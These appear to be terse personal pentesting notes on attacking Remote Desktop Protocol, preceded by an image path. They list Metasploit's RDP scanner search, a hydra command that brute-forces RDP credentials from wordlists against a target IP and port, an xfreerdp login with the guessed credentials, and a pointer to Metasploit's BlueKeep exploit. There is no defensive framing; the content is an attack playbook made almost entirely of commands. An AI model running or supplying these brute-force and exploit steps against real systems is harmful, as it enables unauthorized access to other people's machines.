 remote desktop protocol

msfconsole
search rdp/rdp_scanner 

bruteforce in rdp 

hydra -L /usr/share/metasploit/data/wordlists/common_users.txt -P /UNIX+PASSWRDS rdp://IP -s 3333

xfreerdp /u:user /p:password /v:IP:port 



____________________

RDP - BLUEKEEP CVE

metasploit - search bluekeep 
